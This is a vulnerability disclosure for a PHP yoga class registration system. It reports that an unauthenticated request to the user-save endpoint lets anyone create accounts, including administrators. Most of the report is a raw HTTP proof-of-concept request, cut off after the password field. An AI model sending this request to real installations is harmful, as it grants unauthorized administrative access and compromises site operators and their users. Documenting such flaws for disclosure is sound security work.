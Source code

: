## Yoga Class Registration System has Add by any user vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html

## Vulnerability file
/php-ycrs/classes/Users.php?f=save


## describe
There is a vulnerability in the yoga registration system that allows unlimited user addition. An attacker can use this vulnerability to add administrators to the target system without authorization.

POC
```
POST /php-ycrs/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------308812365014834483211343127358
Content-Length: 1036
Origin: http://localhost
Connection: close
Referer: http://localhost/php-ycrs/admin/?page=user/manage_user
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="id"


-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="firstname"

a
-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="middlename"

a
-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="lastname"

a
-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="username"

adc
-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="password"

a
```